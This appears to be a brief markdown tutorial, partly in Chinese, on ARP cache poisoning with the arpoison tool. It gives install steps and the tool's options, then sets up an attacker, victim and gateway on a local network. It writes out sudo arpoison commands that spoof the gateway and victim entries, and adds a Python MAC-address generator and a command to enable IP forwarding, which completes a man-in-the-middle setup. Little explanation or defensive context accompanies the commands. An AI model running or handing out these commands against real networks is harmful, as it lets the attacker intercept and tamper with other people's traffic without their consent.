 `arpoison -- arp cache update utility`

### 安裝 {#installing}

```
shell> brew install arpoison
```

```
arpoison
       -i     Device e.g. eth0
       -d     Destination IP address in dotted decimal notation.
       -s     Source IP address in dotted decimal notation
       -t     Target MAC address e.g. 00:f3:b2:23:17:f5
       -r     Source MAC address
       -a     Send ARP REQUEST
       -n     Number of packets to send
       -w     Time in seconds between packets

Usage: -i <device> -d <dest IP> -s <src IP> -t <target MAC> -r <src MAC> [-a] [-w time between packets] [-n number to send]
```

`attacker` `192.168.11.3` `a0:99:9b:08:cb:87`
`victim` `192.168.11.2` `fc:aa:14:b4:4c:18`
`gateway` `192.168.11.1` `78:44:76:f8:ec:38`
`macgen` `00:16:3e:20:b0:11`

```
shell> sudo arpoison -i en0 -d 192.168.11.2 -s 192.168.11.1 -t fc:aa:14:b4:4c:18 -r 00:16:3e:20:b0:11
shell> sudo arpoison -i en0 -d 192.168.11.2 -s 192.168.11.1 -t ff:ff:ff:ff:ff:ff -r 00:16:3e:20:b0:11
```

---

```
shell> sudo arpoison -i en0 -d 192.168.11.1 -s 192.168.11.2 -t ff:ff:ff:ff:ff:ff -r fc:aa:14:b4:4c:18
shell> sudo arpoison -i en0 -d 192.168.11.1 -s 192.168.11.2 -t 78:44:76:f8:ec:38 -r fc:aa:14:b4:4c:18
```


```
shell> ./macgen.py 
00:16:3e:20:b0:11
```
	
```py
#!/usr/bin/python
# macgen.py script to generate a MAC address for Red Hat Virtualization guests
#
import random
#
def randomMAC():
	mac = [ 0x00, 0x16, 0x3e,
		random.randint(0x00, 0x7f),
		random.randint(0x00, 0xff),
		random.randint(0x00, 0xff) ]
	return ':'.join(map(lambda x: "%02x" % x, mac))
#
print randomMAC()
```

`pfctl`

```
shell> sysctl -w net.inet.ip.forwarding=1
```

#### :books: 參考網站：
- https://www.centos.org/docs/5/html/5.2/Virtualization/sect-Virtualization-Tips_and_tricks-Generating_a_new_unique_MAC_address.html

